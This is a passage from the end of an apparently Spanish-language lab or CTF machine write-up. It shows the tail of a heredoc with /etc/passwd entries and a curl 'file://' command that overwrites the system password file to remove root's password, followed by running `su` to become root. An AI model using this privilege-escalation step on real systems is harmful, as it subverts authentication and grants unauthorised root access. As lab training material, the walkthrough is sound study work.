 ```css
  rabol:x:1001:1001:rabol,,,:/home/rabol:/bin/rbash
  systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
  systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
  messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
  systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
  sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
  smbuser:x:1000:1000:smbuser,,,:/home/smbuser:/bin/bash
  EOF
curl "file://$TF" -o "$LFILE"
```

Esto va a borrar la "x" de root.

Ahora solo ejecutamos `su` y ya seremos root:

![root](../../../maquina-chmod-4755/img/root.png)

Gracias por leer.
